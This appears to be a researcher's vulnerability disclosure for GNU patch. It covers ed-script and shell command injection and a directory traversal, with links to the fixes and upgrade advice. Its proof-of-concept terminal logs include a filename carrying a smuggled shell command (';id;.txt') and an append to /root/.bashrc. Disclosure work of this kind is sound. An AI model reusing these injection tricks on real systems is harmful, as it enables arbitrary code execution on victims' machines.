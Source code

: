 # GNU patch vulnerabilities

I identified several vulnerabilities in the GNU patch utility, most of them making it possible to execute 
arbitrary code if the victim opens a crafted patch file. It also turned out, some of these vulnerabilities
had been silently addressed by the maintainer back then in 2018 when CVE-2018-1000156 was reported by 
pushing some additional commits the same day, but only the primary patch was picked up by many Linux
distributions (like Debian, Ubuntu or Fedora).

## The vulnerabilities

### CVE-2018-1000156 - unrestricted ed input

This finding belongs to someone else, but unfortunately I'm unsure who the author is.
The original thread on the official bug report site:

https://savannah.gnu.org/bugs/?53566

The official patch of CVE-2018-1000156 is:

https://git.savannah.gnu.org/cgit/patch.git/commit/?id=123eaff0d5d1aebe128295959435b9ca5909c26d

According to the comment of the commit:
* src/pch.c (do_ed_script): Write ed script to a temporary file
instead of piping it to ed: this will cause ed to abort on invalid
commands instead of rejecting them and carrying on.


The thing is, `ed`'s behaviour is different when the script is coming
from a pipe (see the edoffset.script attached):

```
root@55c24e15f7e6:/data/edstyle5# touch whatever
root@55c24e15f7e6:/data/edstyle5# cat edoffset.script | ed whatever
0
?
!
0
root@55c24e15f7e6:/data/edstyle5# cat id-proof.txt
uid=0(root) gid=0(root) groups=0(root)
```

And when it is duped:

```
root@55c24e15f7e6:/data/edstyle5#  rm id-proof.txt
root@55c24e15f7e6:/data/edstyle5#  ed whatever < edoffset.script
0
?
root@55c24e15f7e6:/data/edstyle5# cat id-proof.txt
cat: id-proof.txt: No such file or directory
```

And now the same via patch:

```
root@55c24e15f7e6:/data/edstyle5# ../patch-2.7.6-vanilla/patch-2.7.6/src/patch  < CVE-2018-1000156.patch
patching file file
?
foo
../patch-2.7.6-vanilla/patch-2.7.6/src/patch: **** /bin/ed FAILED
root@55c24e15f7e6:/data/edstyle5# cat CVE-2018-1000156-proof.txt
uid=0(root) gid=0(root) groups=0(root)
```

`CVE-2018-1000156.patch` is pretty much the same as the original PoC created
for that issue (`poc.patch` among the attachments on savannah linked above).


### CVE-2019-13638 - Shell command injection while invoking ed

The GNU patch utility used to invoke `ed` via the shell interpreter and the filenames
were not sanitized correctly, making it vulnerable to shell command injection.
This way, exploitation of CVE-2019-13638 doesn't even require `ed` to be installed.

The official fix was commited the same day as for CVE-2018-1000156, but many distributions
didn't pick it up:

https://git.savannah.gnu.org/cgit/patch.git/commit/?id=3fcd042d26d70856e826a42b5f93dc4854d80bf0

The proof of concept:

```
root@3ffaeb445eab:/data/edstyle4# patch --version
GNU patch 2.7.6
...

root@3ffaeb445eab:/data/edstyle4# patch < CVE-2019-13638.patch
patching file ';id;.txt'
sh: 1: ed: not found
uid=0(root) gid=0(root) groups=0(root)
sh: 1: .txt.o60SfgR: not found
patch: **** ed FAILED
```

### CVE-2019-13636 - Directory traversal and file append

The directory traversal here made it possible to escape the working directory of patch
and append (almost) arbitrary file content to any files on the file system.

This finding is brand new and was fixed only after I reported it. Official patch:

https://git.savannah.gnu.org/cgit/patch.git/commit/?id=dce4683cbbe107a95f1f0d45fabc304acfb5d71a

When patch was saving a rejection, it did not check properly whether the file already
exists or not. This could be abused to escape the working dir:

```
root@3ffaeb445eab:/data/test1/test-apply3#  cat CVE-2019-13636.patch | patch
patching symbolic link home
patching symbolic link home.rej
File home is not a regular file -- refusing to patch
1 out of 1 hunk ignored -- saving rejects to file home.rej
patching symbolic link home
patching symbolic link home.rej


root@3ffaeb445eab:/data/test1/test-apply3# cat /root/.bashrc
# ~/.bashrc: executed by bash(1) for non-login shells.
...
# alias mv='mv -i'
--- home
+++ home
@@ -0,0 +1,3 @@
+ partially
+ controlled
+ content
```

### CVE-2018-20969 - OS shell execution via unrestricted ed filename

(Yes, this one was reported by me in 2019 and MITRE indeed assigned a 2018 ID for it)

## Remediation

Upgrade to latest version of patch provided by your Operating System.
If you build it your own, bump to the head of the master branch.
